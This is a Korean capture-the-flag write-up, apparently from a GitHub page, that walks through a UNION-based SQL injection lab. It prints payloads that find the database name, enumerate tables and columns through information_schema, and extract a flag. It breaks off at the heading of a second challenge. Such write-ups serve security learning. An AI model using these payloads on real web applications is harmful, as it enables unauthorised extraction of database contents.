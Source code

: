 - 컬럼 수가 확인된 뒤, `UNION SELECT` 문을 통해 데이터를 삽입해보았다.
```html
normaltic'+union+select+database(),'lll',3,4--+
```
를 입력하자 검색 결과 중 하나에 **sqli_1**이라는 문자열이 출력되었고, 이를 통해 현재 사용 중인 데이터베이스의 이름이 **sqli_1**임을 확인할 수 있었다.

- 이후 `information_schema.tables`를 활용하여 데이터베이스 내 존재하는 테이블 이름을 확인했다. 
```html
normaltic'+union+select+1,'lll',3,(select+table_name+from+information_schema.tables+where+table_schema='sqli_1'+limit+0,1)--+ 
```
쿼리를 통해 **flag_table**이라는 테이블 이름을 추출할 수 있었다.

- 마찬가지로 `information_schema.columns`를 사용하여 해당 테이블의 컬럼 이름을 찾기 위해 
```html
normaltic'+union+select+1,'lll',3,(select+column_name+from+information_schema.columns+where+table_schema='sqli_1'+and+table_name='flag_table'+limit+0,1)--+
```
를 입력했고, **flag**라는 컬럼명을 알아낼 수 있었다.

- 마지막으로 실제 데이터를 확인하기 위해 
```html
normaltic'+union+select+1,'lll',3,(select+flag+from+flag_table+limit+0,1)--+
```
쿼리를 사용하면

![sql1 flag](./screenshots/sql_1_flag.png)

- **flag를 획득**하였다.

---

### SQL Injection 2 

![가장 처음 게시판](./screenshots/sql_2_board.png)
